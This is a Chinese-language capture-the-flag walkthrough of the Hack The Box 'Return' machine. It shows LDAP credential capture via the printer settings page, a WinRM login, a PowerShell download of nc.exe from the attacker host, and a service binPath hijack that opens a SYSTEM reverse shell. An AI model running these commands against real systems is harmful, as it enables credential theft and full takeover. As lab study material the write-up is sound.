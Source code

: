 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务探测
```
┌──(root💀kali)-[~/htb/return]
└─# nmap -sV -Pn 10.10.11.108 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-27 22:40 EST
Nmap scan report for 10.10.11.108
Host is up (0.34s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          Microsoft IIS httpd 10.0
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2021-11-28 04:22:19Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open     mc-nmf        .NET Message Framing
22752/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49671/tcp open     msrpc         Microsoft Windows RPC
49674/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open     msrpc         Microsoft Windows RPC
49679/tcp open     msrpc         Microsoft Windows RPC
49682/tcp open     msrpc         Microsoft Windows RPC
49694/tcp open     msrpc         Microsoft Windows RPC
54599/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1426.09 seconds

```
可以看见开启了很多服务，http，SMB，ldap等

enum4linux没有发现可以匿名登录的分享文件夹

目录爆破没有可以利用的信息

## 活动目录

浏览器打开80端口服务，首页是一个打印机的展示页面

打开```settings```页面，展示了一个打印机的设置页。

我们用以下关键字
> ldap windows printer 389 exploit

在谷歌找到了[这篇文章](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

留意这段话：
>To exploit this weakness, we simply need to reconfigure the MFP to use a different IP address for the LDAP server. Obviously, the selected IP address needs to be under our control and listening on port 389 (unsecured LDAP). When the MFP eventually makes an LDAP query, it should transmit the credentials back to us in plaintext.

当把```Server Address```字段换成一个我们可以控制的机器，ldap服务就会以明文返回一个管理密码

我们在```settings```页面，把```Server Address```改成```10.10.14.15```(就是tun0的地址)

同时，在我们的kali开启一个389端口的监听

点击```update```

收到ldap给我们的返回：
```
┌──(root💀kali)-[~/htb/return]
└─# nc -lnvp 389                
listening on [any] 389 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 63337
0*`%return\svc-printer�
                       1edFg43012!!

```
```svc-printer```是账户信息

```1edFg43012!!```就是管理密码

用evil-winrm连接，拿到初始shell
```
┌──(root💀kali)-[~/htb/return]
└─# evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'                                                                                                                                                                         1 ⨯

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer

```

# 提权

查看本账号权限：
```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```

查看本账号信息：
```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/30/2021 8:10:04 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

```

留意我们在```Server Operators```组中，因此 我们拥有修改服务配置，重启服务的权限

把nc从kali下载到靶机：

> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/nc.exe','C:\Users\svc-printer\desktop\nc.exe')"

修改vss服务的二进制文件路径
> sc.exe config vss binPath="C:\Users\svc-printer\desktop\nc.exe -e cmd.exe 10.10.14.15 4242"


与此同时在kali开启监听端口4242
> nc -lnvp 4242

重启vss服务

```
*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\desktop> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


```

拿到system的反弹shell

```
┌──(root💀kali)-[~/htb/return]
└─# nc -lvnp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 61869
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

